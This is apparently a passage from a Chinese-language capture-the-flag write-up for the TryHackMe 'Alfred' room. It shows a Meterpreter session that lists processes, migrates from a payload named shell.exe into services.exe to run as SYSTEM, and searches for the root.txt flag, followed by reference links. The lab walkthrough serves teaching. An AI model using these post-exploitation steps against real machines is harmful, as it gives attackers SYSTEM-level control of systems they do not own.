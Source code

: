    ```
      580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
      608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
      620   668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
      668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
      676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
      684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
      ···
      1904  2520  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe
      ···
      meterpreter > migrate 668
      [*] Migrating from 1612 to 668...
      [*] Migration completed successfully
      meterpreter > getpid
      Current pid: 668
      meterpreter > pwd
      C:\Windows\system32  
      ```
      + 进入目标机的目录，输入命令search -f root.txt获取最终flag即可（flag路径为：C:\Windows\System32\config\root.txt）。 

      ```
      meterpreter > pwd
      C:\Windows\system32
      meterpreter > search -f root.txt
      Found 1 result...
      =================

      Path                                 Size (bytes)  Modified (UTC)
      ----                                 ------------  --------------
      c:\Windows\System32\config\root.txt  70            2019-10-26 07:36:00 -0400
      ```

## Reference 

[Alfred](https://tryhackme.com/room/alfred)

[Jenkins详细教程](https://zhuanlan.zhihu.com/p/157592663)

[nishang](https://github.com/samratashok/nishang/tree/master)

[Kali Linux 权限提升](https://www.bookstack.cn/read/kali-linux-cookbook-zh/ch7.md)